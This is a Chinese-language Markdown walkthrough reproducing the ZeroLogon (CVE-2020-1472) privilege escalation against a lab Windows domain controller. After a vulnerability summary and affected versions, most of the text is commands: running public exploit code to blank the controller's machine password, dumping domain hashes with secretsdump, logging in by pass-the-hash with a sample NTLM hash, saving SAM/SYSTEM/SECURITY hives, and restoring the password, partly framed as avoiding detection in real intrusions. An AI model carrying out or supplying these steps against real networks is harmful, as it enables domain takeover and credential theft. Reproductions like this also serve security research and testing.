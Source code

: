 # CVE-2020-1472 ZeroLogon特权提升漏洞

<font color=green>**注意事项：该过程可能会对域环境造成影响，请勿在生产环境复现**</font>

### 一、漏洞简介：

> NetLogon 远程协议是一种在 Windows 域控上使用的 RPC 接口,被用于各种与用户和机器认证相关的任务。最常用于让用户使用 NTLM 协议登录服务器，也用于 NTP 响应认证以及更新计算机域密码微软MSRC于8月11日 发布了Netlogon 特权提升漏洞安全通告。此漏洞CVE编号CVE-2020-1472， CVSS 评分:10.0。由 Secura 公司的 Tom Tervoort 发现提交并命名为 **ZeroLogon**；
> 攻击者使用 Netlogon 远程协议 (MS-NRPC) 建立与域控制器连接的 Netlogon 安全通道时，存在特权提升漏洞。当成功利用此漏洞时，攻击者可无需通过身份验证，在网络中的设备上运行经特殊设计的应用程序，获取域控制器的管理员权限。

### 二、影响范围：

> Windows Server 2012 (Server Core installation)
> 
> Windows Server 2012 R2
> 
> Windows Server 2012 R2 (Server Core installation)
> 
> Windows Server 2016
> 
> Windows Server 2016 (Server Core installation)
> 
> Windows Server 2019
> 
> Windows Server 2019 (Server Core installation)
> 
> Windows Server, version 1903 (Server Core installation)
> 
> Windows Server, version 1909 (Server Core installation)

### 三、需要的环境：

> 1、搭建一个简单的域环境，此处使用Windows Server 2012 R2；不会的可参考
> 
> https://blog.csdn.net/wwl012345/article/details/88934571
> 
> 2、Python环境 最好是python3
> 
> 3、安装Impacket工具包；可参考https://www.freebuf.com/sectool/175208.html
> 
> 4、EXP&POC
> 
> https://github.com/dirkjanm/CVE-2020-1472.git (EXP)
> 
> https://github.com/SecuraBV/CVE-2020-1472.git (POC)

### 四、复现过程：

> 搭建域环境->安装impacket工具包->下载POC及EXP->利用POC检测是否可利用->利用EXP置空域控密码->获得用户hash->通过hash取得一个shell->获得机器保存的原hash->通过获得的hash恢复置空域控密码

---

#### 1.1、Kali安装pip3:

```bash
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python3 get-pip.py
```

#### 1.2、下载安装Impacket工具包：

```bash
git clone https://github.com/SecureAuthCorp/impacket.gitcd /impacket
python3 setup.py install
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgFKfx7Irp7dHNWpEsmGYtzia0kZUVaQ0dvMqOKRK3POs1vwx0j9b5aZw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.3、下载POC&EXP：

```bash
git clone https://github.com/SecuraBV/CVE-2020-1472.git  CVE-2020-1472_POC
git clone https://github.com/dirkjanm/CVE-2020-1472.git  CVE-2020-1472_EXP
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgM7nILWrqa23ThGiaPvD0Qd5XUMtRmvdSSthL9yHOiaTov0HzCtS7N4NQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgJb9wv22XXbcxcaMZI0hSKmJg4BDicZQjkjH3SJEBbUNgHBabggq2vtw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.4、利用POC检测：

```bash
cd /root/github/CVE-2020-1472_POC
python3 zerologon_tester.py WIN-C6LETGR17RK 192.168.5.132
```

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143639.png)

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143640.png)

#### <font color=red>1.5、利用EXP获取域控存储的hash：</font>

```
1.将域控密码置为空密码：
cd /root/github/CVE-2020-1472_EXP
python3 cve-2020-1472-exploit.py WIN-C6LETGR17RK(这是域控主机名) 192.168.5.132(这是域控ip)
2.获得域控上的hash：
cd /root/github/impacket/examples
python3 secretsdump.py tbosec.com/WIN-C6LETGR17RK\$@192.168.5.132 -no-pass
上面是 域名/域控主机名\$@域控ip
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgoIRVC0Fy0p1wqmDUABnkoBaiacz07Nb5P476fBv6eLIJUJAwjrshXYg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhg1jnXp856QZA58R8aFIyhbzpcic4NLgwoJgm1Rv6IwWGaYMxQZQbibKyg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.6、使用hash登录域控：

```
cd /root/github/impacket/examples
python3 smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:36a06e6257a0e2c2b0bb3673f6297df7 administrator@192.168.5.132
或者；建议使用👇
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:36a06e6257a0e2c2b0bb3673f6297df7 tbosec.com/administrator@192.168.5.132
```

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143641)

#### 1.7、恢复域控密码：

**后面这几步非必须，但真实场景中避免影响正常业务或被发现可以恢复域控密码**

```
参考方法：
https://github.com/risksense/zerologon
1.导出sam等文件到本地，获得域控上边本地保存的置空前的hash
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
```

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143641.png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhg0hicLeRqse3MiazibrMy6qt70ZiaNDbzlmibFatEUatHl5pFcP2f8nZKMYQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.8、通过sam等文件获得原ntlm hash：

```
cd /root/github/impacket/examples
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgszo0lLa0EZXmmIHYw2mnJIhlSpwFmofViaicy85A4DcPHjpqXstgo04w/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.9、恢复原hash：

```
git clone https://github.com/risksense/zerologon.git
cd zerologon
python3 reinstall_original_pw.py WIN-7JMG7PQ1LL8(域控主机名) 192.168.5.132 f9bca1e49fbfb7fec5fc54d80c72a79c(这是上面红框的后半部分)
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgSrYibZGYe5PWwgF6CibzFsibeUYIY9g43icpPzqp2ibwpGVn9KA8DXOwySw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 2.0、确认是否恢复成功：

**再次尝试获取hash已经不能成功了，成功恢复**

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143642.png)

#### 最后：

------

如果过程出现部分错误，可参考下面的帖子，前人已整理出来

http://0x3.biz/archives/1960.html
